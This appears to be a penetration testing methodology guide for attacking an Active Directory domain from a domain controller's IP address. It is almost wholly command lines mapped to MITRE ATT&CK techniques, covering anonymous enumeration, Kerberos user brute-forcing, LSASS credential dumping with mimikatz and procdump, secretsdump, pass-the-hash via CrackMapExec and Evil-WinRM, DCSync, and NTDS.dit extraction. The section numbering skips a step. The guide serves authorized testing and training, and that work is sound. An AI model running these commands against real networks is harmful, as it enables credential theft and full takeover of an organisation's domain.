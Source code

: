 # **Comprehensive Active Directory (AD) Penetration Testing Methodology**

## **Scenario:**
You have only the **IP address of the Domain Controller (DC)** and must conduct a full Active Directory pentest. This guide includes **multiple alternative techniques for each step**, ensuring redundancy. Each method is mapped to **MITRE ATT&CK Techniques (TTPs)** where applicable.

---

# **🛠 Step 1: Information Gathering (Recon) (T1595, T1592, T1590)**
**Objective:** Identify the domain name, live hosts, users, and exposed services.

### **1.1 Identify Live Hosts & Domain Name**
- **Primary Method: DNS Reverse Lookup (T1590.005)**
  ```bash
  nslookup <DC_IP>
  ```
- **Alternative Methods:**
  - **Find domain via NetBIOS (if 137/139 open) (T1590.005):**
    ```bash
    nmblookup -A <DC_IP>
    ```
  - **Identify DC using SMB (if 445 open) (T1590.002):**
    ```bash
    crackmapexec smb <DC_IP> --shares
    ```
  - **Check SSL certificates (if 443 open) (T1590.004):**
    ```bash
    openssl s_client -connect <DC_IP>:443 | grep "CN="
    ```
  - **Discover live hosts via ICMP scan (T1595.002):**
    ```bash
    fping -a -g <IP_RANGE>
    ```
  - **Enumerate domain using nbtscan (T1590.005):**
    ```bash
    nbtscan -r <IP_RANGE>
    ```
  - **Enumerate via CrackMapExec (T1590.002):**
    ```bash
    crackmapexec smb <DC_IP> -u '' -p '' --shares
    ```

---

# **📡 Step 2: Enumerating Active Directory (No Authentication) (T1590, T1592.002, T1592.004)**
**Objective:** Extract usernames, shares, and AD structure **without credentials**.

### **2.1 Enumerate Users & Domain Info**
- **Primary Method: LDAP Anonymous Bind (T1592.002)**
  ```bash
  ldapsearch -x -H ldap://<DC_IP> -s base namingContexts
  ```
- **Alternative Methods:**
  - **Extract domain name from SMB (if 445 open) (T1592.002):**
    ```bash
    smbclient -L //<DC_IP> -N
    ```
  - **Use Kerberos brute-force with common names (T1595.002):**
    ```bash
    kerbrute userenum -d corp.local --dc <DC_IP> users.txt
    ```
  - **Check printer services (for usernames in print jobs) (T1592.002):**
    ```bash
    enum4linux -a <DC_IP>
    ```
  - **Enumerate domain SID (T1592.002):**
    ```bash
    rpcclient -U "" <DC_IP> -c "enumdomusers"
    ```
  - **Using BloodHound with SharpHound (T1592.002):**
    ```powershell
    SharpHound.exe -c All
    ```

### **2.2 Enumerate Shares & GPOs**
- **Primary Method: SMB Enumeration (T1590.002)**
  ```bash
  crackmapexec smb <DC_IP> -u '' -p '' --shares
  ```
- **Alternative Methods:**
  - **Check for readable GPO files (group policies may contain creds) (T1592.004):**
    ```bash
    smbclient //DC_IP/SYSVOL -N
    ```
  - **Search for passwords in SYSVOL (T1552.006):**
    ```bash
    find . -name "*.xml" | xargs grep -i password
    ```
  - **List accessible shares manually via SMB (T1590.002):**
    ```bash
    smbmap -H <DC_IP>
    ```
  - **Enumerate domain trust relationships via RPC (T1592.002):**
    ```bash
    rpcclient -U "" <DC_IP> -c "enumdomgroups"
    ```
  - **Using BloodHound for Trust Enumeration (T1592.002):**
    ```powershell
    Invoke-BloodHound -CollectionMethod All -Verbose -OutputDirectory C:\temp
    ```

---

# **🔑 Step 3: Gaining Initial Access (T1078.002, T1557.002, T1110.003)**
**Objective:** Obtain valid credentials for a **low-privileged user**.

### **3.1 Credential Dumping via Mimikatz (T1003.001)**
- **Primary Method (Windows Elevated CMD):**
  ```powershell
  mimikatz
  sekurlsa::logonpasswords
  ```
- **Alternative Methods:**
  - **Dump credentials from LSASS using Task Manager:**
    ```powershell
    procdump -accepteula -ma lsass.exe lsass.dmp
    ```
  - **Extracting NTLM Hashes using Impacket:**
    ```bash
    secretsdump.py -just-dc corp.local/user:password@<DC_IP>
    ```
  - **Using Rubeus for Ticket Extraction (T1558.003):**
    ```powershell
    Rubeus.exe dump /format:kirbi
    ```
  
---

# **📡 Step 5: Lateral Movement (T1550.001, T1558.002, T1021.002)**
**Objective:** Expand access to **other machines in the domain**.

### **5.1 Over-Pass-the-Hash (T1550.002)**
- **Primary Method:**
  ```powershell
  mimikatz
  sekurlsa::pth /user:user /domain:corp.local /ntlm:<HASH>
  ```
- **Alternative Methods:**
  - **Using CrackMapExec for Lateral Movement:**
    ```bash
    crackmapexec smb <DC_IP> -u user -H <NTLM_HASH>
    ```
  - **Using Evil-WinRM:**
    ```bash
    evil-winrm -i <DC_IP> -u user -H <NTLM_HASH>
    ```
  
---

# **🏆 Step 6: Domain Controller Compromise (T1003.002, T1555.003)**
**Objective:** Gain **full control over the AD environment**.

### **6.1 DCSync Attack (T1003.002)**
- **Primary Method:**
  ```powershell
  mimikatz
  lsadump::dcsync /domain:corp.local /user:Administrator
  ```
- **Alternative Methods:**
  - **Extracting NTDS.dit via Ntdsutil:**
    ```powershell
    ntdsutil "ac i ntds" "ifm" "create full c:\ntds" q q
    ```

